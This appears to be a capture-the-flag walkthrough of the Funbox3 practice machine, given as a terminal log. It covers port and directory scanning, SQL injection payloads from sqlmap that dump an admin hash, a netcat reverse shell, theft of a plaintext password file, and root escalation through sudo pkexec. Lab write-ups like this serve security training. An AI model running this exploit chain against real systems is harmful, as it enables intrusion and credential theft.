


crazyeights@es-base:~$ nmap -PS 192.168.56.1-255
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 21:54 EDT
Nmap scan report for 192.168.56.118
Host is up (0.000084s latency).
Not shown: 998 closed ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
crazyeights@es-base:~$ nmap -A -p- 192.168.56.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 21:55 EDT
[SNIP]
Not shown: 65532 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_gym
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
33060/tcp open mysqlx?
[SNIP]
crazyeights@es-base:~$ dirb http://192.168.56.118
[SNIP]
GENERATED WORDS: 4612
---- Scanning URL: http://192.168.56.118/ ----
==> DIRECTORY: http://192.168.56.118/admin/
+ http://192.168.56.118/index.html (CODE:200|SIZE:10918)
+ http://192.168.56.118/index.php (CODE:200|SIZE:3468)
+ http://192.168.56.118/robots.txt (CODE:200|SIZE:14)
==> DIRECTORY: http://192.168.56.118/secret/
+ http://192.168.56.118/server-status (CODE:403|SIZE:279)
==> DIRECTORY: http://192.168.56.118/store/
---- Entering directory: http://192.168.56.118/admin/ ----
==> DIRECTORY: http://192.168.56.118/admin/assets/
+ http://192.168.56.118/admin/index.php (CODE:200|SIZE:3263)
---- Entering directory: http://192.168.56.118/secret/ ----
+ http://192.168.56.118/secret/index.php (CODE:200|SIZE:108)
+ http://192.168.56.118/secret/robots.txt (CODE:200|SIZE:35)
---- Entering directory: http://192.168.56.118/store/ ----
+ http://192.168.56.118/store/admin.php (CODE:200|SIZE:3153)
[SNIP]
crazyeights@es-base:~$ curl http://192.168.56.118/secret/
„Anyone who lives within their means suffers from a lack of imagination.“
Oscar Wilde (*1854 - †1900)
at /store
book product pages look vulnerable to SQLi
Trying:
http://192.168.56.118/store/book.php?bookisbn=978-0-321-94786-4 or '1'='1
Response is:
Can't retrieve data You have an error in your SQL syntax;
check the manual that corresponds to your MySQL server version for the right syntax to use near '1'='1'' at line 1crazyeights@es-base:~$ sqlmap -u http://192.168.56.118/store/book.php?bookisbn=978-0-321-94786-4 --dump
[SNIP]
sqlmap identified the following injection point(s) with a total of 59 HTTP(s) requests:
---
Parameter: bookisbn (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: bookisbn=978-0-321-94786-4' AND 2942=2942 AND 'uGAX'='uGAX
Type: error-based
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: bookisbn=978-0-321-94786-4' AND GTID_SUBSET(CONCAT(0x71707a7871,(SELECT (ELT(2352=2352,1))),0x71767a7071),2352) AND 'Dlzl'='Dlzl
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: bookisbn=978-0-321-94786-4' AND (SELECT 5367 FROM (SELECT(SLEEP(5)))ObXO) AND 'PTKg'='PTKg
Type: UNION query
Title: Generic UNION query (NULL) - 7 columns
Payload: bookisbn=-5080' UNION ALL SELECT NULL,NULL,CONCAT(0x71707a7871,0x59626b6e544b464b4c655250796a466c6e716b6f706f68696b7154676d6f485975546b7a656c7175,0x71767a7071),NULL,NULL,NULL,NULL-- -
---
[SNIP]
Database: store
Table: admin
[1 entry]
+-------+--------------------------------------------------+
| name | pass |
+-------+--------------------------------------------------+
| admin | d033e22ae348aeb5660fc2140aec35850c4da997 (admin) |
+-------+--------------------------------------------------+
http://192.168.56.118/store/bootstrap/img/
nc -lvp 1234
crazyeights@es-base:~$ nc -lvp 1234
listening on [any] 1234 ...
192.168.56.118: inverse host lookup failed: Unknown host
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.118] 55336
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
02:38:01 up 44 min, 0 users, load average: 0.00, 0.01, 0.12
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ ls
$ cd /home
$ ls
tony
$ cd tony
$ ls
password.txt
$ cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
$
crazyeights@es-base:~$ ssh tony@192.168.56.118
tony@192.168.56.118's password:
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)
[SNIP]
tony@funbox3:~$
tony@funbox3:~$ cd /var/www/html
tony@funbox3:/var/www/html$ ls
admin gym logout.php
change-password.php header.php profile.php
checklogin.php hitcounter.txt registration.php
create-ticket.php index.html robots.txt
dashboard.php index.php secret
dbconnection.php jquery-1.2.6.min.js store
forgot-password.php jquery.timers-1.0.0.js view-tickets.php
get-quote.php leftbar.php
tony@funbox3:/var/www/html$ sudo -l
Matching Defaults entries for tony on funbox3:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User tony may run the following commands on funbox3:
(root) NOPASSWD: /usr/bin/yelp
(root) NOPASSWD: /usr/bin/dmf
(root) NOPASSWD: /usr/bin/whois
(root) NOPASSWD: /usr/bin/rlogin
(root) NOPASSWD: /usr/bin/pkexec
(root) NOPASSWD: /usr/bin/mtr
(root) NOPASSWD: /usr/bin/finger
(root) NOPASSWD: /usr/bin/time
(root) NOPASSWD: /usr/bin/cancel
(root) NOPASSWD:
/root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
pkexec - Execute a command as another user
tony@funbox3:~$ sudo pkexec --user root /usr/bin/ls /root
root.flag snap
tony@funbox3:~$ sudo pkexec --user root /bin/bash -i
root@funbox3:~#
root@funbox3:~# cd /root
root@funbox3:~# ls
root.flag snap
root@funbox3:~# cat root.flag
__________ ___. ___________
\_ _____/_ __ ____\_ |__ _______ ___ /\ \_ _____/____ _________.__.
| __)| | \/ \| __ \ / _ \ \/ / \/ | __)_\__ \ / ___< | |
| \ | | / | \ \_\ ( <_> > < /\ | \/ __ \_\___ \ \___ |
\___ / |____/|___| /___ /\____/__/\_ \ \/ /_______ (____ /____ >/ ____|
\/ \/ \/ \/ \/ \/ \/ \/
Made with ❤ from twitter@0815R2d2. Please, share this on twitter if you want.
root@funbox3:~#
FIN.